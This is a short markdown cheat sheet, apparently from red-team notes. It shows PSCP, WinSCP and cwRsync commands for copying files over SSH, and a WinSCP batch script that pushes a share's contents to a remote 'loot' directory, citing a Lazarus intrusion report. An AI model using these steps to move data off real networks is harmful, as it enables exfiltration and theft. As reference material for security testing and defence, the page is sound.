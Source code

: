 # SSH

## 01 - PSCP

`C:\> pscp.exe -4 [-P <PORT>] -pw <password> <source> <username>@<IP>:<destination>`

## 02 - WinSCP

TODO: Fill this info

`$ cat commands.txt`

---

```
option batch continue
option confirm off
open sftp://<username>:<password>@<IP> -hostkey=<fingerprint> -rawsettings Compression=1
lcd "//<IP | computer_name>/<share_name>/path/to/directory/"
cd "/mnt/<loot | downloads>"
put "<directory>"
# synchronize remote -criteria=size
exit
```

`C:\> winscp.exe /script=commands.txt`

## 03 - CwRsync

### 2.1 - Setup

`C:\> curl -o cwrsync.zip https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip`

```powershell
PS C:\> Invoke-Webrequest -UseBasicParsing -Uri https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip -OutFile cwrsync.zip
Expand-Archive cwrsync.zip
Remove-Item cwrsync.zip
cd cwrsync/bin/
```

### 2.2 - Usage

`PS C:\cwrsync/bin> .\rsync.exe`

---
## References

- [Kaspersky: Lazarus Targets Defense Industry with Threatneedle](https://ics-cert.kaspersky.com/publications/reports/2021/02/25/lazarus-targets-defense-industry-with-threatneedle/)

- [WinSCP Command Line](https://winscp.net/eng/docs/commandline)

- [CwRsync](https://www.itefix.net/cwrsync)